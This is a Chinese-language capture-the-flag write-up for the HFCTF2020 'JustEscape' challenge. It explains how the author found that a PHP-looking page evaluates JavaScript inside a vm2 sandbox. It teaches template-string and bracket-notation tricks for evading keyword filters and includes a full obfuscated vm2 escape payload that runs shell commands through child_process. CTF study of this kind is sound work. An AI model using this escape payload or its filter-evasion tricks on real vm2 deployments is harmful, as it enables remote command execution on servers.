





HFCTF2020JustEscape
十二月 17, 2020
一道VM2的沙箱逃逸..
知识点
- 沙箱逃逸
- Payload拼接(?)
做题思路
这道题目伪装成PHP是真滴恶心，首先我们访问可以得到一个用Vue框架写的页面：

尝试直接访问index.php的话可以得到一段php源码:
1 |
|
结果你就会发现这个code是没加$符号的也就是说他没用..那么再回到之前的code的部分，大概也是真的eval了这段代码，看看是不是Javascript
1 | ?code=Error().stack |

果然是JS，而且我们可以知道是VM2的沙箱，那么如何沙箱逃逸呢？👴一点JS也不懂，没法子只能去GITHUB上嫖，找到：
vm2沙箱逃逸，可以看到：
1 | ; |
尝试复制粘贴【
1 | (function(){ |
好的打不过，倒地只能看WP了，别人给出的POC：
POC 1
1 | (function (){ |
呃..?这里看起来是进行了拼接，自己不懂原理的话就先学会怎么拼接payload吧,在JS中我们可以用反引号来代替单引号和双引号：
`的语法
ES6 模板字符串(Template String)是增强版的字符串，用反引号(`)标识，它可以当作普通字符串使用，也可以用来定义多行字符串，或者在字符串中嵌入变量。介绍博客,从此处我们可以得到反引号作用：
- 代替字符串的双引号和单引号
- 可以包含特定语法的占位符
- 配合${}符号可以包含变量
例子：
原本我们输出多行字符串应该这样来写：
1 | console.log('string text line 1\n' + |
使用反引号之后:
1 | console.log(`string text line 1 |

当其与${}搭配之后更是可以大大降低我们书写字符串的格式化问题：

那么现在回到题目来，我们需要拼接变量该如何操作呢？很简单，只需要先用反引号将需要的东西包含起来，再用${}即可表示为一个变量：

[]的语法
如果不允许我们使用点号，我们可以使用[]来绕过：JS中的中括号
这样的话我们就可以任意的绕过关键参数匹配，拼接出上图的Payload了
POC 2
利用join来拼接字符串：
JOIN
1 | (()=>{ TypeError[[`p`,`r`,`o`,`t`,`o`,`t`,`y`,`p`,`e`][`join`](``)][`a`] = f=>f[[`c`,`o`,`n`,`s`,`t`,`r`,`u`,`c`,`t`,`o`,`r`][`join`](``)]([`r`,`e`,`t`,`u`,`r`,`n`,` `,`p`,`r`,`o`,`c`,`e`,`s`,`s`][`join`](``))(); try{ Object[`preventExtensions`](Buffer[`from`](``))[`a`] = 1; }catch(e){ return e[`a`](()=>{})[`mainModule`][[`r`,`e`,`q`,`u`,`i`,`r`,`e`][`join`](``)]([`c`,`h`,`i`,`l`,`d`,`_`,`p`,`r`,`o`,`c`,`e`,`s`,`s`][`join`](``))[[`e`,`x`,`e`,`c`,`S`,`y`,`n`,`c`][`join`](``)](`cat /flag`)[`toString`](); } })() |
JS当中使用join()中添加参数来决定如何拼接，如果不添加默认用,分割开来，如果为0就会拼接在一起了
POC 3
数组绕过
1 | code[]=(function(){ |
VM2沙箱逃逸原理
查看评论